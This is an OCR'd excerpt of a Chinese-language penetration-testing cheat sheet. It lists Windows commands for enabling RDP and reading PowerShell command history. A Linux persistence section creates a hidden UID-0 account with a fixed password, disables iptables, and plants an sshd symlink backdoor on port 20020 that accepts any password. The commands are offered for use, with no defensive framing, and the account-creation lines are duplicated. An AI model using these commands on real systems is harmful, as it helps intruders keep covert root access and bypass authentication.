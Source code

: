 
### Win-Win2008开启3389

wmic /namespace:\\root\\cimv2\\terminalservices path win32\_terminalservicesetting where (\_\_CLASS !\= "") call setallowtsconnections 1  
wmic /namespace:\\root\\cimv2\\terminalservices path win32\_tsgeneralsetting where (TerminalName \='RDP-Tcp') call setuserauthenticationrequired 1  
reg add "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fSingleSessionPerUser /t REG\_DWORD /d 0 /f

---

### Win-查看历史命令

type %userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost\_history.txt  
type %appdata%\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost\_history.txt

---

### Win-计算文件hash

certutil.exe -hashfile 1.txt

---

### Win-强制停止进程

停止指定pid进程 taskkill /f /pid 3352  
停止指定exe taskkill /f /im explor.exe

---

## Linux

### Linux-权限维持

🚀创建Root权限账户  
useradd -p openssl passwd -1 -salt 'support' Passw0rd -o -u 0 -g root -G root -s /bin/bash -d /home/support  
🚀创建普通权限账户  
useradd -p openssl passwd -1 -salt 'support' Passw0rd support  
🚀创建Root权限账户  
useradd -p openssl passwd -1 -salt 'support' Passw0rd -o -u 0 -g root -G root -s /bin/bash -d /home/support  
🚀创建普通权限账户  
useradd -p openssl passwd -1 -salt 'support' Passw0rd support  
🚀软链接后门  
后门植入  
service iptables stop  
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort\=20020  
后门连接 输入任意密码，成功登录  
ssh root@IP -p 20020

---